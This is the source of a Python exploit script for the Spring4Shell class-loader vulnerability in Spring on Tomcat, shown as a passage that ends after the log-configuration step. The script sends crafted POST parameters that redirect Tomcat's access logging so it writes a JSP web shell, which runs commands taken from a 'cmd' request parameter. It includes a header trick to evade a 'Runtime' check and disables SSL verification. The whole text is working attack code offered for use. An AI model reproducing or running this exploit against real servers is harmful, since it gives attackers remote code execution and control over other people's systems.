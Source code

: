 ```python3
# Author: @Rezn0k
# Based off the work of p1n93r

import requests
import argparse
from urllib.parse import urlparse
import time

# Set to bypass errors if the target site has SSL issues
requests.packages.urllib3.disable_warnings()

post_headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

get_headers = {
    "prefix": "<%",
    "suffix": "%>//",
    # This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
    "c": "Runtime",
}


def run_exploit(url, directory, filename):
    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

    exp_data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])

    # Setting and unsetting the fileDateFormat field allows for executing the exploit multiple times
    # If re-running the exploit, this will create an artifact of {old_file_name}_.jsp
    file_date_data = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_"
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=file_date_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)

    # Change the tomcat log location variables
    print("[*] Modifying Log Configurations")
    ret = requests.post(url, headers=post_headers, data=exp_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)

    # Changes take some time to populate on tomcat
    time.sleep(3)

```